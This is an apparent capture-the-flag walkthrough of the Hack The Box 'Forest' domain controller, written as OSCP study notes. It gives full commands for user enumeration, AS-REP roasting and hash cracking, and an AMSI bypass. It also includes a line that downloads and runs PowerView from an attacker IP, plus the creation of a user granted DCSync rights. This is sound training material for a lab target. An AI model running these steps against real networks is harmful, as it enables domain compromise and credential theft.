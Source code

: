 ## Forest

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.161 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/a8a3aa80-53ff-4a7a-b87e-8ce174525cbe)

<br>

Only Domain Controller ports open, we can enumerate users with a few tools.

```
enum4linux -a 10.10.10.161

rpcclient -U "" -N 10.10.10.161
enumdomusers

kerbrute userenum --dc 10.10.10.161 -d htb.local /usr/share/wordlists/seclists/Usernames/Names/names.txt

crackmapexec smb 10.10.10.161 -u '' -p '' --users
```

![enumeratingUsers](https://github.com/b1d0ws/OSCP/assets/58514930/92584173-6323-4ae3-a6a3-20deb66daa5e)

![usersTXT](https://github.com/b1d0ws/OSCP/assets/58514930/ab28bed2-89e4-4fdf-95ad-fc29cf0011c6)

<br>

Hunt for users with Kerberoast Pre-auth Not Required and crack the hash with hashcat.

```
impacket-GetNPUsers HTB.LOCAL/ -dc-ip 10.10.10.161 -no-pass -usersfile users.txt
hashcat -m 18200 svc-alfresco /usr/share/wordlists/rockyou.txt
```

![GetNPUsers](https://github.com/b1d0ws/OSCP/assets/58514930/dda3031d-444e-4447-be93-9ef960dcbd3a)

![hashcat](https://github.com/b1d0ws/OSCP/assets/58514930/3b95791c-c8ad-47cb-a480-5c9308172580)

<br>

### Root Flag

Analyzing bloodhound, we can note the following situation:

* svc-alfresco belongs to Service Accounts group;
* Service Accounts group belong to Account Operators;
* Account Operators can create accounts and design groups to users;
* Exchange Windows Permissions group can perform DCSync.

Create a user and add  group Exchange Windows Permissions to him to have DCSync attack privileges.


```
.\SharpHound.exe -c All --zipfilename FOREST
```

![bloodhound](https://github.com/b1d0ws/OSCP/assets/58514930/b0bf6b50-21bb-4115-b279-1dc9e6d26a54)

<br>

```
# Create user and add to groups
net user bido bido123! /add /domain
net group "Exchange Windows Permissions" bido /add
net localgroup "Remote Management Users" bido /add

# Disable defender on EvilWinRM
menu
Bypass-4MSI

# Import Powerview
iex(new-object net.webclient).downloadstring('http://10.10.14.21/PowerView.ps1')

# Give him DCSync rights
$pass = convertto-securestring 'bido123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\bido', $pass)
Add-ObjectACL -PrincipalIdentity bido -Credential $cred -Rights DCSync
```

![creatingUser](https://github.com/b1d0ws/OSCP/assets/58514930/6dc22967-aa4e-49cc-ab02-28c784c0218d)

![importingPowerView](https://github.com/b1d0ws/OSCP/assets/58514930/22fc4d92-6bce-42fa-9ef1-a8ba2de6c93e)

![gettingDCSync](https://github.com/b1d0ws/OSCP/assets/58514930/59e61e84-f65f-4043-b1dd-8f3b9d4955bf)

<br>

Now, perform DCSync to get Administrator hash and login with evilWinRM.

![performingDCSync](https://github.com/b1d0ws/OSCP/assets/58514930/bbea2834-7665-49bb-9a60-78ef7b928170)
